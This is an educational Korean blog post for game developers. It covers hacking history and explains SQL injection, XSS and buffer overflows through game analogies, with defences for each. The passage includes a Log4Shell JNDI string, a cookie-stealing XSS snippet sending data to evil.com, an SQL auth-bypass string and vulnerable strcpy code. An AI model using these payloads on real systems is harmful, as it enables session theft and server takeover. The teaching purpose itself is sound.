







[](https://hits.sh/epheria.github.io/posts/SecurityHacking01/)

## 서론

게임 개발자라면 글리치(glitch)와 익스플로잇(exploit)이라는 단어에 익숙할 것이다. 벽을 뚫고 지나가는 스피드런 기법, 인벤토리 복제 버그, 메모리 조작을 통한 무한 체력. 이 모든 것은 게임이 **의도하지 않은 방식으로 동작하도록 만드는 기술**이다. 그리고 이것이 바로 해킹의 본질이다.

보안(Security)이라는 단어를 들으면 대부분 "나와는 상관없는 분야"라고 생각하기 쉽다. 하지만 게임 개발자야말로 보안의 최전선에 서 있는 사람들이다. 게임 서버는 수백만 동시접속자를 감당해야 하고, 클라이언트-서버 통신은 항상 변조의 위험에 노출되어 있으며, 치터(cheater)들은 끊임없이 새로운 공격 벡터를 찾아낸다.

이 시리즈는 **게임 개발자의 시각**으로 사이버 보안의 핵심을 관통하는 2편 구성의 글이다. 1편에서는 공격자의 관점에서 해킹의 역사와 기법을 해부하고, 2편에서는 방어자의 관점에서 보안의 원리와 실전 기술을 다룬다.

| 편 | 제목 | 핵심 주제 |
|---|------|----------|
| 1편 (본 글) | 전장의 안개 | 해킹의 역사, 공격 기법 7종 해부 |
| 2편 | 방패의 기술 | 안티치트, 사이버보안, AI 보안 |

적을 알아야 막을 수 있다. 먼저 **전장의 안개** 속으로 들어가 보자.

---

## Part 1: 해킹이란 무엇인가

### 해킹의 정의

> **해킹(Hacking)이란 시스템이 의도하지 않은 방식으로 동작하게 만드는 기술이다.**

이 정의를 게임에 대입하면 놀라울 정도로 잘 맞아떨어진다. 스피드런에서 벽 뚫기 글리치를 사용하는 것은 개발자가 의도하지 않은 경로로 목표 지점에 도달하는 행위다. 인벤토리 복제 버그를 이용하는 것은 아이템 시스템의 설계 결함을 악용하는 것이다. 메모리를 직접 편집하여 체력을 무한으로 만드는 것은 프로그램의 런타임 상태를 임의로 조작하는 것이다.

해킹의 어원은 1960년대 MIT의 모델 철도 클럽(Tech Model Railroad Club)까지 거슬러 올라간다. 당시 "해킹"이라는 단어는 **창의적인 문제 해결**, 즉 기존의 규칙이나 방법론에 얽매이지 않고 영리하게 시스템을 다루는 행위를 의미했다. 전화 시스템을 조작하던 초기 해커들(Phone Phreakers)도 호기심과 탐구심에서 시작했지, 처음부터 범죄를 목적으로 하지는 않았다.

중요한 것은 **해킹 자체는 범죄가 아니라는 점**이다. 해킹은 기술이고, 그 기술을 어떤 의도로 사용하느냐에 따라 보안 연구가 될 수도 있고 사이버 범죄가 될 수도 있다. 마치 칼이 요리 도구가 될 수도 있고 무기가 될 수도 있는 것과 같다.

### 해커의 분류

해커는 그 의도와 활동 영역에 따라 크게 세 가지로 분류된다. 게임 비유를 곁들이면 이해가 훨씬 쉬워진다.

- **화이트햇(White Hat)**: 합법적으로 시스템의 취약점을 찾아 보고하는 보안 전문가다. 게임으로 치면 **QA 테스터**와 같다. 버그를 찾지만 악용하지 않고 개발팀에 보고하여 수정을 돕는다.

- **그레이햇(Grey Hat)**: 법적 경계선 위에서 활동하는 해커다. 보상을 위해 취약점을 발견하기도 하고, 때로는 허가 없이 시스템을 테스트하기도 한다. 게임으로 치면 **스피드러너**와 유사하다. 글리치를 발견하면 공개하여 커뮤니티에 알리지만, 그것이 게임 경제를 망가뜨릴 수도 있다.

- **블랙햇(Black Hat)**: 악의적인 목적으로 시스템에 침입하는 사이버 범죄자다. 게임으로 치면 **치터**다. 핵(hack)을 사용하여 다른 플레이어의 경험을 망치고, 게임 경제를 파괴하며, 자신만의 이익을 추구한다.



현실에서 이 경계는 생각보다 모호하다. 버그 바운티(Bug Bounty) 프로그램이 활성화되면서 그레이햇 영역에 있던 많은 해커들이 화이트햇으로 전환하고 있다. Google, Microsoft, Apple 등 대형 기업들은 취약점을 발견하면 수천 달러에서 수십만 달러의 보상금을 지급한다. 게임 회사들도 마찬가지다. Valve, Riot Games, Epic Games 등은 자체 버그 바운티 프로그램을 운영하며 보안 연구자들의 기여를 장려하고 있다.

---

## Part 2: 유명 해킹 사건 분석 -- 사이버 전장의 기록

역사를 모르면 같은 실수를 반복한다. 이 섹션에서는 사이버 보안 역사의 전환점이 된 주요 사건들을 분석한다. 각 사건을 게임 개발자의 관점에서 비유하여 해석하면, 공격의 패턴과 원리가 훨씬 명확하게 보일 것이다.

### 1. 모리스 웜 (1988) -- 인터넷 최초의 대규모 감염

**배경**: 1988년 11월 2일, 코넬대 대학원생 로버트 탭판 모리스(Robert Tappan Morris)는 인터넷에 연결된 컴퓨터의 규모를 측정하기 위한 프로그램을 작성했다. 이 프로그램은 Unix 시스템의 알려진 취약점(sendmail, fingerd, rsh/rexec)을 이용하여 다른 컴퓨터로 자기 자신을 복제하도록 설계되었다.

문제는 **자가 복제의 제어 메커니즘에 치명적인 결함**이 있었다는 것이다. 모리스는 이미 감염된 시스템에 대한 중복 감염을 방지하기 위해, 웜이 기존 프로세스의 존재를 확인하도록 설계했다. 하지만 관리자가 가짜 프로세스로 웜을 속일 수 있을 것을 우려하여, 확인 결과와 관계없이 **7분의 1 확률로 무조건 재감염**되도록 코드를 작성했다.

**게임 비유**: 이것은 **"출시 첫날 무한 복제 버그"**와 정확히 같다. MMORPG에서 몬스터를 처치하면 2마리가 새로 생성되는 버그를 상상해 보라. 처음에는 한두 마리로 시작하지만, 기하급수적으로 증가하여 서버가 감당할 수 없게 된다. 모리스 웜도 동일한 패턴을 따랐다. 하나의 시스템에 웜의 복사본이 수십, 수백 개씩 실행되면서 CPU와 메모리를 소진시켰다.



**피해**: 당시 인터넷에 연결된 약 60,000대의 컴퓨터 중 약 6,000대(약 10%)가 감염되었다. 감염된 시스템은 극심한 성능 저하를 겪었고, 많은 시스템이 완전히 멈췄다. 피해 복구 비용은 수백만 달러에 달했다.

**교훈**: 이 사건은 두 가지 중요한 결과를 낳았다. 첫째, 미국 국방부 산하에 **CERT(Computer Emergency Response Team)**가 설립되어 사이버 보안 사고에 대한 체계적인 대응 체제가 마련되었다. 둘째, **"의도하지 않은 재귀"의 위험성**이 전 세계에 알려졌다. 모리스 자신은 악의적 의도가 없었다고 주장했지만, 결과적으로 인터넷 역사상 최초의 대규모 보안 사고를 일으켰다. 그는 컴퓨터 사기 및 남용에 관한 법률(CFAA) 위반으로 유죄 판결을 받은 최초의 인물이 되었다.

### 2. 솔라윈즈 공급망 공격 (2020) -- 공식 패치에 숨긴 백도어

**배경**: 2020년 12월, 보안 기업 FireEye는 자사 시스템이 침투당했음을 발견했다. 조사 과정에서 공격의 진입 경로가 밝혀졌는데, 그것은 놀랍게도 **SolarWinds Orion**이라는 IT 모니터링 소프트웨어의 **공식 업데이트**였다.

공격자(러시아 정보기관 SVR 소속으로 추정되는 APT29/Cozy Bear)는 SolarWinds의 빌드 시스템에 침투하여, 소프트웨어의 빌드 과정에 악성 코드를 삽입했다. 이렇게 변조된 업데이트는 SolarWinds의 공식 디지털 서명이 적용된 채로 배포되었기 때문에, 초기에 대부분의 보안 솔루션이 이를 탐지하지 못했다.

**게임 비유**: 이것은 **"공식 패치에 치트 코드가 포함된 것"**과 같다. Steam이나 PlayStation Store를 통해 공식 게임 업데이트를 받았는데, 그 업데이트 안에 누군가가 백도어를 심어놓은 것이다. 플레이어 입장에서는 공식 채널을 통해 받은 것이니 의심할 이유가 전혀 없다.



**피해**: SolarWinds Orion을 사용하는 약 18,000개 조직이 악성 업데이트를 설치했다. 그 중에는 미국 국방부, 재무부, 상무부, 국토안보부 등 핵심 정부 기관과 Microsoft, Intel, Cisco 등 Fortune 500 기업이 포함되어 있었다. 공격자는 약 9개월간 탐지되지 않은 채 이들 시스템 내부를 돌아다녔다.

**교훈**: 이 사건은 **공급망(Supply Chain) 신뢰의 취약성**을 적나라하게 드러냈다. 아무리 자체 보안이 완벽해도, 의존하는 소프트웨어의 공급망이 뚫리면 모든 것이 무너진다. 게임 개발에서도 마찬가지다. 서드파티 SDK, 미들웨어, 에셋 스토어의 플러그인 -- 우리가 신뢰하고 사용하는 모든 외부 의존성은 잠재적인 공격 벡터가 될 수 있다.

### 3. Log4Shell (2021) -- Minecraft에서 시작된 제로데이

**배경**: 2021년 12월, Apache Log4j 라이브러리에서 치명적인 취약점(CVE-2021-44228)이 발견되었다. Log4j는 Java 생태계에서 가장 널리 사용되는 로깅 라이브러리로, 수십억 개의 디바이스에서 실행되고 있었다.

문제의 핵심은 Log4j의 **JNDI(Java Naming and Directory Interface) Lookup** 기능이었다. 이 기능은 로그 메시지 안에 포함된 특정 패턴의 문자열을 자동으로 해석하여, 외부 서버에서 Java 클래스를 로드하고 실행할 수 있었다.

**게임 비유**: 이것은 단순한 비유가 아니라 **실제로 Minecraft에서 발생한 사건**이다. Minecraft 서버는 Java로 동작하며 Log4j를 사용한다. 플레이어가 게임 내 채팅창에 다음과 같은 문자열을 입력하면:

```
${jndi:ldap://evil.com/exploit}
```

서버가 이 문자열을 로그에 기록하는 순간, Log4j가 JNDI Lookup을 수행하여 공격자의 서버에서 악성 코드를 다운로드하고 실행했다. **채팅 메시지 하나로 서버 전체를 장악**할 수 있었던 것이다.



**CVSS 점수**: 10.0 (최고 위험도). CVSS(Common Vulnerability Scoring System)에서 10.0은 "원격에서 인증 없이 쉽게 악용 가능하며, 완전한 시스템 장악이 가능"하다는 것을 의미한다.

**교훈**: Log4Shell은 **라이브러리 의존성의 위험**을 극적으로 보여주었다. 대부분의 개발자는 자신의 프로젝트에 Log4j가 포함되어 있다는 사실조차 몰랐다. 직접 사용하지 않더라도, 사용하는 프레임워크나 라이브러리가 내부적으로 Log4j에 의존하고 있었기 때문이다. 게임 개발에서도 동일한 문제가 존재한다. 우리가 사용하는 수많은 미들웨어와 SDK 내부에 어떤 라이브러리가 숨어 있는지, 그리고 그 라이브러리에 어떤 취약점이 있는지 완벽하게 파악하는 것은 거의 불가능에 가깝다.

### 사이버 보안 사건 연표

위의 세 가지 사건 외에도, 사이버 보안 역사에는 중요한 전환점이 된 사건들이 다수 존재한다. 아래 연표는 핵심 사건들을 정리한 것이다.

| 연도 | 사건 | 유형 | 게임 비유 | 영향 |
|------|------|------|----------|------|
| 1988 | 모리스 웜 | 자가 복제 | 무한 복제 버그 | CERT 설립 계기 |
| 2010 | 스턱스넷 | 국가 사이버 무기 | 특정 보스만 공격하는 치트 | 이란 원심분리기 파괴 |
| 2017 | WannaCry | 랜섬웨어 | 인벤토리 잠금 후 몸값 요구 | 150개국 30만대 감염 |
| 2020 | 솔라윈즈 | 공급망 공격 | 공식 패치에 백도어 | 미 정부기관 침투 |
| 2021 | Log4Shell | 제로데이 | 채팅창 서버 해킹 | CVSS 10.0 |
| 2021 | 카세야 | 공급망+랜섬웨어 | MSP를 통한 연쇄 공격 | 1,500개 기업 피해 |
| 2023 | MOVEit | 제로데이 | 파일 전송 취약점 | 2,500개 조직 데이터 유출 |
| 2024 | CrowdStrike | 업데이트 결함 | 안티치트가 게임을 크래시 | 전세계 블루스크린 |

이 연표에서 주목해야 할 패턴이 있다. 시간이 흐를수록 공격의 규모와 정교함이 기하급수적으로 증가하고 있으며, **공급망 공격(Supply Chain Attack)**이 점점 더 핵심적인 위협으로 부상하고 있다는 것이다.

---

## Part 3: 해킹 기법 총정리 -- 공격자의 무기고


지금부터 현대 사이버 보안에서 가장 중요한 7가지 공격 기법을 해부한다. 각 기법은 동일한 구조로 설명한다: 한줄요약, 게임 비유, 상세 원리, 실제 사례, 간략 방어법.

### 1. SQL Injection -- 채팅창에 치트 코드를 입력하다

> **한줄요약**: 데이터베이스 쿼리에 악의적인 SQL 코드를 삽입하여 인증 우회, 데이터 탈취, 데이터 조작을 수행하는 공격

**게임 비유**: MMORPG 채팅창에 `/give gold 99999`를 입력했더니 실제로 골드가 생기는 상황을 상상해 보라. 개발자는 채팅창에 일반적인 텍스트만 입력될 것이라고 가정했지만, 공격자는 시스템이 해석하는 **명령어**를 입력한 것이다. SQL Injection도 정확히 같은 원리다. 웹 애플리케이션이 사용자 입력을 SQL 쿼리의 일부로 직접 삽입할 때, 공격자는 입력값에 SQL 코드를 포함시켜 데이터베이스를 마음대로 조작한다.

#### 상세 원리

일반적인 로그인 과정에서 서버는 다음과 같은 SQL 쿼리를 실행한다:

```sql
SELECT * FROM users WHERE username = '입력한_아이디' AND password = '입력한_비밀번호'
```

공격자가 아이디 필드에 `' OR '1'='1' --`를 입력하면, 쿼리는 다음과 같이 변조된다:

```sql
-- 취약한 쿼리 (사용자 입력을 직접 삽입)
SELECT * FROM users WHERE username = '' OR '1'='1' -- ' AND password = '아무거나'

-- 공격자 입력: ' OR '1'='1' --
-- 결과: 모든 사용자 데이터 반환!
```

여기서 `--`는 SQL의 주석 기호이므로, 그 뒤의 비밀번호 검증 부분은 완전히 무시된다. `'1'='1'`은 항상 참(true)이므로, 결과적으로 테이블의 모든 행이 반환된다.

안전한 코드는 **Parameterized Query(매개변수화된 쿼리)**를 사용하여 입력값을 코드가 아닌 데이터로 처리한다:

```sql
-- 안전한 쿼리 (Parameterized Query)
SELECT * FROM users WHERE username = ? AND password = ?
-- 입력값이 코드가 아닌 데이터로 처리됨
```

이 방식에서는 공격자가 어떤 문자열을 입력하든, 그것은 SQL 명령어로 해석되지 않고 순수한 문자열 데이터로만 취급된다.

#### SQL Injection의 변형

SQL Injection은 단순한 인증 우회를 넘어 다양한 변형이 존재한다:

- **Union-based**: `UNION SELECT` 구문을 삽입하여 다른 테이블의 데이터를 함께 조회
- **Blind SQL Injection**: 쿼리 결과가 직접 표시되지 않을 때, 참/거짓 응답의 차이를 관찰하여 데이터를 한 글자씩 추출
- **Time-based Blind**: 응답 시간의 차이(`SLEEP` 함수 등)를 이용하여 정보를 추출
- **Second-order**: 즉시 실행되지 않고, 나중에 다른 쿼리에서 사용될 때 실행되는 지연형 공격

**실제 사례**: 2008년 Heartland Payment Systems 해킹은 SQL Injection을 통해 약 1억 3천만 건의 신용카드 정보가 유출된 역사상 최대 규모의 데이터 침해 사건 중 하나였다. 공격자 Albert Gonzalez는 징역 20년을 선고받았다.

**간략 방어법**:
- Parameterized Query 또는 ORM(Object-Relational Mapping) 사용
- 입력값 검증(Validation) 및 이스케이프(Escape) 처리
- 최소 권한 원칙(Principle of Least Privilege)으로 데이터베이스 계정 설정
- WAF(Web Application Firewall) 배포

### 2. XSS (Cross-Site Scripting) -- 다른 플레이어 화면에 가짜 UI를 띄우다

> **한줄요약**: 웹 페이지에 악성 스크립트를 주입하여 다른 사용자의 브라우저에서 실행시키는 공격

**게임 비유**: 다른 플레이어의 HUD(Head-Up Display)에 가짜 "비밀번호를 입력하세요" 팝업을 띄우는 것과 같다. 피해자는 이것이 게임의 공식 UI인지, 공격자가 삽입한 가짜 UI인지 구분할 수 없다. 왜냐하면 가짜 UI도 게임 클라이언트 안에서 실행되기 때문이다. XSS도 동일하다. 공격자가 삽입한 스크립트는 **해당 웹사이트의 컨텍스트 안에서** 실행되므로, 브라우저는 이를 해당 사이트의 정상적인 코드로 취급한다.

#### 3가지 유형

**Stored XSS (저장형)**: 가장 위험한 유형이다. 공격자가 게시판, 댓글, 프로필 등에 악성 스크립트를 저장한다. 그 페이지를 방문하는 **모든 사용자**에게 스크립트가 실행된다. 게임으로 치면, 길드 게시판에 올린 글이 그것을 읽는 모든 길드원의 클라이언트에서 악성 코드를 실행하는 것이다.

**Reflected XSS (반사형)**: URL의 파라미터에 스크립트를 삽입하여, 해당 링크를 클릭한 사용자에게만 실행된다. 예를 들어, `https://example.com/search?q=<script>alert('XSS')</script>`와 같은 URL을 피해자에게 보내면, 검색 결과 페이지에서 스크립트가 실행된다.

**DOM-based XSS**: 서버가 아닌 클라이언트 측 JavaScript가 URL이나 사용자 입력을 불안전하게 처리할 때 발생한다. 서버 응답에는 악성 코드가 포함되어 있지 않지만, 클라이언트의 JavaScript가 동적으로 페이지를 조작하는 과정에서 악성 코드가 실행된다.

#### 코드 예시

```html
<!-- 공격자가 게시판에 작성한 댓글 -->
<script>
  // 쿠키 탈취 → 공격자 서버로 전송
  new Image().src = "https://evil.com/steal?c=" + document.cookie;
</script>
```

위 스크립트가 포함된 댓글을 다른 사용자가 읽으면, 그 사용자의 브라우저에서 스크립트가 실행된다. `document.cookie`에는 세션 토큰이 포함되어 있을 수 있으며, 이것이 공격자의 서버로 전송되면 공격자는 피해자의 세션을 탈취하여 해당 사용자로 로그인할 수 있다.



**실제 사례**: 2005년 MySpace에서 발생한 **Samy 웜**은 XSS 역사상 가장 유명한 사건이다. 19세의 Samy Kamkar가 작성한 JavaScript 웜은 프로필을 방문하는 모든 사용자를 자동으로 친구 추가하고, 해당 사용자의 프로필에도 동일한 웜을 복사했다. **24시간 만에 100만 명 이상이 감염**되어 MySpace는 전체 서비스를 중단해야 했다.

**간략 방어법**:
- 출력 인코딩(Output Encoding): HTML 엔티티, JavaScript 이스케이프 등
- CSP(Content Security Policy): 브라우저에게 허용된 스크립트 출처를 명시
- HttpOnly 쿠키: JavaScript에서 쿠키에 접근할 수 없도록 설정
- 입력 검증 및 sanitization

### 3. Buffer Overflow -- 인벤토리 슬롯을 넘쳐서 스탯을 변조하다

> **한줄요약**: 프로그램의 메모리 버퍼 크기를 초과하는 데이터를 입력하여 인접 메모리를 덮어쓰고 프로그램 실행 흐름을 변조하는 공격

**게임 비유**: 캐릭터의 인벤토리가 10칸이라고 가정하자. 메모리 구조상, 인벤토리 바로 다음에 캐릭터의 스탯(공격력, 방어력, 체력)이 저장되어 있다. 만약 11번째 아이템을 강제로 넣을 수 있다면, 그 데이터는 인벤토리 영역을 넘어서 스탯 영역을 덮어쓰게 된다. 공격자는 이 원리를 이용하여 원하는 값(예: 공격력 99999)을 정확한 위치에 기록할 수 있다.

#### 상세 원리

프로그램이 함수를 호출하면, 스택(Stack) 메모리에 로컬 변수, 저장된 프레임 포인터(Saved EBP), 그리고 **리턴 주소(Return Address)**가 순서대로 저장된다. 리턴 주소는 현재 함수가 끝난 후 **다음에 실행할 명령어의 위치**를 가리킨다.

버퍼 오버플로우 공격은 로컬 버퍼에 설계된 크기보다 큰 데이터를 입력하여, 스택 상위 영역의 리턴 주소를 공격자가 원하는 주소로 덮어쓴다. 함수가 반환될 때, 프로그램은 원래 실행 지점이 아닌 **공격자가 지정한 주소의 코드를 실행**하게 된다.

```
 정상 상태                     오버플로우 후
┌──────────────┐              ┌──────────────┐
│  Return Addr │  ←────────   │  0xDEADBEEF  │ ← 공격자 코드 주소!
├──────────────┤              ├──────────────┤
│  Saved EBP   │              │  AAAAAAAAAA  │ ← 덮어쓰여짐
├──────────────┤              ├──────────────┤
│  Buffer[16]  │              │  AAAAAAAAAA  │ ← 입력 데이터
│  "Hello"     │              │  AAAAAAAAAA  │
└──────────────┘              └──────────────┘
  ↑ 스택 성장 방향               ↑ 넘침!
```

#### 취약한 코드

```c
void vulnerable(char *input) {
    char buffer[16];          // 16바이트 버퍼
    strcpy(buffer, input);    // 길이 체크 없이 복사!
    // input이 16바이트를 초과하면 → 리턴 주소 덮어쓰기
}
```

`strcpy` 함수는 소스 문자열의 길이를 확인하지 않고 그대로 복사한다. `input`이 16바이트를 초과하면, `buffer` 영역을 넘어서 Saved EBP와 Return Address를 덮어쓰게 된다. 이것이 버퍼 오버플로우의 핵심이다.

#### 왜 게임 개발자에게 중요한가

게임은 C/C++로 개발되는 경우가 많다. 특히 Unreal Engine, 커스텀 게임 엔진, 네이티브 플러그인 등에서 수동 메모리 관리를 수행하는 코드는 버퍼 오버플로우에 취약할 수 있다. 게임 서버에서 이 취약점이 존재하면, 클라이언트가 보낸 패킷으로 서버의 실행 흐름을 장악하는 것이 가능하다.

